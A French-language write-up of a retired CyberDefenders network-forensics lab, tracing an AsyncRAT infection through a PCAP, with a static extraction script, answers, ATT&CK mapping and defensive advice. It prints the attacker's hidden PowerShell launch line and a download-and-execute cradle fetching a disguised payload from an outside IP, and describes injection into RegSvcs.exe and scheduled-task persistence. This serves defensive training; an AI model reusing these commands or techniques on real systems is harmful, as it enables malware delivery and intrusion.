









# Day 002 — XLMRat Lab

| | |
|---|---|
| Plateforme | [CyberDefenders](https://cyberdefenders.org/blueteam-ctf-challenges/xlmrat/) |
| Catégorie | Network Forensics |
| Difficulté | Easy — Retired |
| Date | 2026-08-13 |
| Outils | Wireshark / tshark, CyberChef, VirusTotal, PowerShell |

Le lab étant retiré, les réponses sont incluses (la publication de writeups complets est autorisée dans ce cas).

## Contexte

Une machine (`10.1.9.101`) a généré du trafic réseau suspect. À partir d'un seul artefact, un PCAP (`236-XLMRat.pcap`), l'objectif est de reconstituer l'attaque : comment l'accès a été obtenu, quels outils et techniques ont servi, et comment le malware opère une fois installé.

La chaîne d'attaque, une fois reconstituée :

```
xlm.txt (VBScript)  ->  télécharge et exécute  ->  mdm.jpg (PowerShell déguisé en image)
   ->  déobfuscation : deux payloads (loader NewPE2 + RAT)
   ->  injection du RAT dans RegSvcs.exe (LOLBin, sans fichier sur disque)
   ->  persistance : dépôt de Conted.{ps1,bat,vbs} + tâche planifiée "Update Edge"
```

## Analyse réseau

Le filtre `http.request` dans Wireshark montre deux téléchargements de la victime vers `45.126.209.4:222` :

| Ordre | Temps | Requête |
|---|---|---|
| 1 | 0.295 s | `GET /xlm.txt` — le script déclencheur |
| 2 | 1.585 s | `GET /mdm.jpg` — le stage suivant |

### Q1 — URL du premier stage du malware

`xlm.txt` n'est que le vecteur : il exécute une commande (`IEX (New-Object Net.WebClient).DownloadString(...)`) qui télécharge le vrai stage. Ce stage est donc le fichier récupéré par cette commande, pas le script lui-même.



**Réponse : `http://45.126.209.4:222/mdm.jpg`** — ATT&CK T1105 (Ingress Tool Transfer).

### Q2 — Hébergeur de l'IP

Recherche sur `45.126.209.4` via VirusTotal (onglet Details, champ AS Owner) ou ipinfo.io : AS 23470.



**Réponse : `ReliableSite.Net`**

## Déobfuscation des scripts

### xlm.txt

Le VBScript reconstitue une commande PowerShell à partir d'un tableau de 88 fragments de deux caractères, puis la lance en mode caché :

```
Cmd.exe /c POWeRSHeLL.eXe -NOP -WIND HIDDEN -eXeC BYPASS -NONI <commande reconstituée>
```

Une fois recollée :

```powershell
IEX (New-Object Net.WebClient).DownloadString('http://45.126.209.4:222/mdm.jpg')
```

`mdm.jpg` n'est donc pas une image : c'est un script PowerShell téléchargé et exécuté en mémoire. ATT&CK T1059.001 (PowerShell), T1027 (Obfuscation).

On récupère son contenu par clic droit sur `GET /mdm.jpg` → Follow → HTTP Stream :



Le flux affiche un `Content-Type: image/jpeg` en leurre, puis le script et la chaîne `$hexString_bbb = "4D_5A_90_00…"` (les octets `4D 5A` correspondent à `MZ`, la signature d'un exécutable Windows) :



### mdm.jpg

Le script contient deux payloads encodés en hexadécimal :

| Variable | Rôle | Taille |
|---|---|---|
| `$hexString_pe` | Loader / injecteur NewPE2 (.NET) | 76 288 o |
| `$hexString_bbb` | Exécutable secondaire, le RAT | 66 560 o |

Il charge NewPE2 avec `Assembly.Load`, puis appelle `NewPE2.PE.Execute(<RegSvcs.exe>, <RAT>)` : le RAT est injecté dans un binaire Windows légitime.

### Q3 — SHA256 de l'exécutable secondaire

On reconstruit les octets de `$hexString_bbb`, puis on les hashe. À aucun moment le binaire n'est exécuté (analyse statique).

Avec CyberChef : `Find/Replace (_ → espace)` → `From Hex (Space)` → `SHA2 (256)`.

Version reproductible depuis le PCAP :

```powershell
& "C:\Program Files\Wireshark\tshark.exe" -r 236-XLMRat.pcap --export-objects "http,.\obj" -q
$txt = Get-Content .\obj\mdm.jpg -Raw
$hex = [regex]::Match($txt,'\$hexString_bbb\s*=\s*"([0-9A-Fa-f_]+)"').Groups[1].Value
$bytes = $hex -split '_' | % { [byte][convert]::ToInt32($_,16) }
[IO.File]::WriteAllBytes(".\payload_bbb.bin",$bytes)
Get-FileHash .\payload_bbb.bin -Algorithm SHA256
```



**Réponse : `1eb7b02e18f67420f42b1d94e74f3b6289d92672a0fb1786c30c03d68e81d798`**

## Renseignement (VirusTotal)

### Q4 — Famille du malware (label Alibaba)

En cherchant le hash sur VirusTotal, l'onglet Detection montre pour Alibaba : `Backdoor:MSIL/AsyncRat.2786761`. Les family labels (`asyncrat`, `msil`, `marte`) et le popular threat label `trojan.asyncrat/msil` confirment.



**Réponse : `AsyncRat`**

### Q5 — Timestamp de compilation

Onglet Details → section History → Creation Time. À noter : compilé le 30/10/2023, mais vu pour la première fois dans la nature le 11/01/2024, environ deux mois plus tard.



**Réponse : `2023-10-30 15:08`**

## Exécution et persistance

### Q6 — LOLBin utilisé pour l'exécution furtive

Le RAT est injecté dans `RegSvcs.exe`, un binaire .NET légitime de Windows. Son chemin est reconstruit par concaténation (`'Mi'+'cr'+'osoft.NET\...'`) pour ne pas apparaître en clair. Résultat : le code malveillant tourne dans un processus signé Microsoft, sans fichier exécutable posé sur le disque.



**Réponse : `C:\Windows\Microsoft.NET\Framework\v4.0.30319\RegSvcs.exe`** — ATT&CK T1218 (System Binary Proxy Execution) + T1055 (Process Injection).

### Q7 — Fichiers déposés par le script

Le script écrit trois fichiers dans `C:\Users\Public\` via `[IO.File]::WriteAllText(...)`, puis enregistre une tâche planifiée nommée "Update Edge" qui lance `Conted.vbs` toutes les deux minutes (`PT2M`). La cascade `Conted.vbs → Conted.bat → Conted.ps1` relance l'injection du RAT.



**Réponse : `Conted.ps1, Conted.bat, Conted.vbs`** — ATT&CK T1053.005 (Scheduled Task).

## Récapitulatif

| Q | Élément | Réponse |
|---|---|---|
| 1 | URL du premier stage | `http://45.126.209.4:222/mdm.jpg` |
| 2 | Hébergeur | `ReliableSite.Net` |
| 3 | SHA256 du RAT | `1eb7b02e18f67420f42b1d94e74f3b6289d92672a0fb1786c30c03d68e81d798` |
| 4 | Famille (Alibaba) | `AsyncRat` |
| 5 | Compilation | `2023-10-30 15:08` |
| 6 | LOLBin | `C:\Windows\Microsoft.NET\Framework\v4.0.30319\RegSvcs.exe` |
| 7 | Fichiers déposés | `Conted.ps1, Conted.bat, Conted.vbs` |

Mapping MITRE ATT&CK : T1059.001 (PowerShell), T1027 (Obfuscation), T1105 (Ingress Tool Transfer), T1055 (Process Injection), T1218 (Signed Binary Proxy Execution), T1053.005 (Scheduled Task).

## Ce que je retiens

Le point marquant du lab, c'est la chaîne complète menée en mémoire : un faux `.jpg` qui n'est que du PowerShell, deux exécutables cachés en hexadécimal, et un RAT (AsyncRAT) injecté dans un binaire Windows de confiance pour ne rien laisser sur le disque. Reconstruire le payload et en calculer l'empreinte sans jamais l'exécuter est exactement le genre de réflexe que je voulais travailler.

## Côté défense

- Journaliser et alerter sur PowerShell lancé avec `-WindowStyle Hidden -ExecutionPolicy Bypass` (Script Block Logging).
- Surveiller `RegSvcs.exe` s'il établit des connexions réseau ou se lance hors contexte de build.
- Repérer la création de tâches planifiées douteuses (ici "Update Edge") et les écritures dans `C:\Users\Public\`.
- Bloquer l'IP C2 `45.126.209.4` sur le pare-feu ou le proxy.
